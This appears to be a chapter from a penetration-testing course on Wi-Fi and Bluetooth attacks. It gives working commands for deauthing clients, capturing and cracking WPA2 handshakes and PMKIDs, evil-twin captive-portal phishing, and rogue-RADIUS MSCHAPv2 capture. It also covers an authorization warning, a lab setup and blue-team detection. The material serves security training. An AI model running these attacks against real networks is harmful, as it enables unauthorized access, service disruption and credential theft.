

# 📡 Wireless Attacks

> Wi-Fi is the soft outer perimeter of most enterprises. Stand outside the building with the right antenna and you can capture authentication exchanges, force re-auth, set up rogue access points, and bypass MFA-protected internal services. This chapter covers WPA2, WPA3, enterprise auth (802.1X), and evil-twin attacks.

!!! danger "Authorization required"
    Wireless attacks are particularly invasive — you're literally broadcasting deauths and rogue beacons that affect any nearby device. Run only against networks you own or are explicitly authorized to test, with documented ROE that covers RF range. The FCC (US) and TRAI/WPC (India) take unauthorized RF interference seriously.

---

## 1. The Wireless Threat Model



The most consistent wins:

1. Capture the WPA2 4-way handshake → offline crack (still works in 2026).
2. PMKID attack (no client needed) → offline crack.
3. Evil-twin captive portal → harvest creds.
4. Evil-twin enterprise → harvest MSCHAPv2 challenge/response → crack.

WPA3 is much better but has had its own vulnerabilities (Dragonblood) and deployment is uneven.

---

## 2. Hardware

You need an adapter that supports:
- **Monitor mode** (sniff all 802.11 frames)
- **Packet injection** (deauth, rogue beacons)

Reliable chipsets:

| Chipset | Adapter examples |
|---|---|
| Atheros AR9271 | Alfa AWUS036NHA, TP-Link TL-WN722N v1 |
| Realtek RTL8812AU | Alfa AWUS036ACH (dual-band, 5 GHz) |
| MediaTek MT7610U | Alfa AWUS036ACS |
| MediaTek MT7612U | Alfa AWUS036ACM (modern, well-supported) |

For 2.4 + 5 GHz coverage, get an MT76xx or RTL8812AU adapter. Built-in laptop Wi-Fi rarely supports injection.

---

## 3. Setup

```bash
# Identify interface
iw dev
ip link

# Kill processes that grab the interface
sudo airmon-ng check kill

# Enable monitor mode
sudo airmon-ng start wlan0
# now you have wlan0mon
# OR:
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up

# Verify
iw dev wlan0 info     # should say type "monitor"
```

---

## 4. Recon — What's Around You

```bash
sudo airodump-ng wlan0mon
# Shows: BSSID, PWR, Beacons, #Data, CH, ENC, CIPHER, AUTH, ESSID

# Scan a single channel for an AP
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
```

Modern alternatives:

```bash
sudo kismet                                    # GUI / web
sudo wifite                                    # automation; runs many attacks
hcxdumptool -i wlan0mon -o dump.pcapng         # PMKID-focused
```

What to look for:
- **Encryption type** — WEP (now extinct, instant break), WPA, WPA2, WPA3, OWE
- **Authentication** — PSK (pre-shared key) vs MGT (Enterprise/802.1X)
- **Connected clients** — MAC + signal strength
- **Probe requests** from clients (their saved networks → potential KARMA targets)

---

## 5. WPA2-PSK — 4-Way Handshake Capture

The 4-way handshake exchanges enough material to brute-force the PSK offline.

```bash
# Set channel + BSSID, write capture
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon

# In another terminal — deauth a client to force re-auth
sudo aireplay-ng --deauth 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon

# Wait for "WPA handshake: AA:BB:..." in airodump
# Convert capture (modern hashcat needs hccapx or 22000)
hcxpcapngtool -o hash.22000 handshake-01.cap

# Crack
hashcat -m 22000 hash.22000 wordlist.txt -r rules/best64.rule
```

Crack rate depends on password complexity:
- 8-char numeric PSK on a single GPU → **minutes**
- Default ISP passwords (often 8–10 char alphanumeric) → **hours to days**
- Strong 16+ char random PSK → **infeasible** without GPU farm

---

## 6. PMKID Attack — No Client Needed

Discovered 2018: many APs cache the PMKID in the first EAPOL message of association, even before any client connects. Attacker can request it directly:

```bash
sudo hcxdumptool -i wlan0mon -o dump.pcapng --enable_status=1
# Wait — PMKIDs collected in the file

hcxpcapngtool -o pmkid.22000 dump.pcapng
hashcat -m 22000 pmkid.22000 wordlist.txt
```

The win: you don't need to wait for / deauth a client. You ride past the building, leave hcxdumptool running for an hour, drive away with hashes.

Modern AP firmware mitigates this (caching PMKID only after a successful association), but coverage is uneven.

---

## 7. WPA3-SAE — Dragonblood

WPA3 replaced PSK's PBKDF2 with SAE (Simultaneous Authentication of Equals) — designed to be brute-resistant. Vanhoef + Ronen's **Dragonblood** (2019) found timing/cache side-channels and downgrade paths.

```bash
# Modern WPA3 transition mode networks (WPA2/WPA3 mixed) often allow downgrade
# Force a client onto WPA2 if both are advertised — capture WPA2 handshake as before
```

WPA3-only networks remain hard to attack. Mixed-mode (the dominant deployment in 2026) is often as weak as WPA2.

---

## 8. Evil Twin — The Captive Portal Attack

Set up a rogue AP with the same SSID. Modern client OSes prefer stronger signal (move closer or amplify) — clients auto-associate. Then run a captive portal that asks for the "Wi-Fi password" or "corporate login":

```bash
# wifiphisher — automated evil-twin platform
sudo wifiphisher

# Or build it manually:
sudo airbase-ng -e "Corp-Wifi" -c 6 wlan0mon
# Then dnsmasq + a captive portal HTTP server
```

Captive-portal phishing is shockingly effective:
- Office workers expect re-auth prompts
- The portal can theme itself to match the org's IdP
- Even MFA-ed users will type their first factor

For corporate engagements, this is a frequent path to cleartext domain creds.

---

## 9. Enterprise Wi-Fi (WPA2-Enterprise / 802.1X)

Enterprise Wi-Fi uses RADIUS for auth. Common setup: **PEAP/EAP-MSCHAPv2** — username + password.

If clients don't validate the RADIUS server certificate (depressingly common on Windows + Android):

```bash
# Stand up a fake RADIUS server
hostapd-wpe / eaphammer

# eaphammer is the modern choice
eaphammer --certwizard
eaphammer -i wlan0mon --essid "Corp-Wifi" --hostile-portal -e -c eaphammer.cert
```

When a client connects to your evil twin and tries 802.1X, your fake RADIUS captures the **MSCHAPv2 challenge/response** — which is offline-crackable:

```bash
# challenge: 8 bytes
# response: 24 bytes split into 3x DES
# crack with chapcrack / asleap / hashcat -m 5500
hashcat -m 5500 hash.txt rockyou.txt
```

Or — if the password is weak — just send the challenge to an online MS-CHAPv2 cracking service that uses pre-computed tables.

The defensive fix: enforce server certificate validation on every endpoint AND restrict to specific RADIUS server CN/SAN.

---

## 10. Open / OWE Networks

Open Wi-Fi: no encryption. **All traffic is in the clear** — sniff with tcpdump / Wireshark.

OWE (Opportunistic Wireless Encryption) was added in WPA3 to encrypt open networks. Still rare. Where it exists, traffic is encrypted but with no authentication of either side — MITM with rogue AP still works.

---

## 11. KRACK, FragAttacks, etc.

| Vuln | Year | Impact |
|---|---|---|
| **KRACK** | 2017 | Replay/decrypt WPA2 traffic via 4-way handshake nonce reuse |
| **FragAttacks** | 2021 | Fragmentation/aggregation flaws across many implementations |
| **Dragonblood** | 2019 | WPA3 SAE side channels |
| **TKIP** | 2008 | Old WPA-TKIP entirely broken |

Most are patched in modern firmware. Useful to know the names; rarely the path of least resistance in a real engagement.

---

## 12. Bluetooth & BLE

Adjacent — wireless attack surface that pen-tests sometimes cover:

- **BlueBorne** (2017) — BT stack RCE on unpatched devices
- **KNOB** (2019) — BT key downgrade
- **BLE pairing** weaknesses — Just Works pairing (no auth) used routinely
- **BLE replay** — many BLE devices (locks, garage doors) replay-vulnerable

Tools: `bluetoothctl`, `gatttool`, `ubertooth`, `bettercap`'s BLE module, `BTLEJack`.

This is its own discipline; we mention it for completeness.

---

## 13. Hands-On Lab

Build a wireless lab:
- 2× cheap APs (one for "victim", one as your target if you don't want to test on your own)
- 1× Alfa adapter
- Kali on a laptop or VM with USB passthrough

Practice (against your own gear, in a Faraday-shielded environment if available):

1. Capture WPA2 4-way handshake from your own AP, crack with a wordlist of known passwords.
2. PMKID attack against your own AP.
3. Set up `eaphammer` evil twin against a test SSID and capture MSCHAPv2.
4. Set up `wifiphisher` portal; experiment with which themes look most legitimate.
5. Practice channel hopping while running airodump.

---

## 14. Detection (Blue-Team View)

Wireless monitoring is its own discipline. Common detection layers:

- **WIDS (Wireless IDS)** — Cisco WIPS, Aruba RFProtect, custom Kismet deployments
- **Rogue AP detection** — corporate APs scan and flag SSIDs that match corporate names
- **Anomalous deauth packet rate** — deauth flood = active attack signal
- **Client-side RADIUS cert validation** — even one device with `disabled` is a hole

If you're defending, the playbook is:

1. **WPA3-only** where possible; WPA2 with strong PSK rotation otherwise
2. Enforce server cert validation in 802.1X profiles (GPO / MDM)
3. Disable WPS
4. Monitor for rogue APs continuously
5. Train users not to trust captive-portal prompts on corporate networks

---

## 15. Interview Questions

- What does monitor mode do that station mode doesn't?
- Walk through capturing and cracking a WPA2 handshake.
- What's PMKID? Why is it more useful than the 4-way handshake for attackers?
- An evil twin against WPA2-Enterprise — what's the chain of events?
- What does Dragonblood compromise about WPA3?
- A SOC asks how to detect rogue APs. What's your answer?

---

## 16. Tools Quick Reference

| Tool | Purpose |
|---|---|
| `airodump-ng`, `aireplay-ng`, `aircrack-ng` | Classic Aircrack suite |
| `hcxdumptool`, `hcxpcapngtool` | PMKID capture + format conversion |
| `hashcat -m 22000` | WPA cracking |
| `wifite` | Automation |
| `kismet` | Long-running survey |
| `wifiphisher` | Automated evil-twin |
| `eaphammer`, `hostapd-wpe` | Enterprise rogue RADIUS |
| `bettercap` | Wireless + MITM toolkit |

---

## 17. Further Reading

- *Hacking Exposed: Wireless* (Cache, Wright)
- KRACK Attacks site (krackattacks.com)
- Vanhoef's blog (Dragonblood, FragAttacks)
- Wireless CTF talks at DEF CON (every year, gold)

---

[← Active Directory](active-directory.md) · [Mobile App Security →](mobile.md)
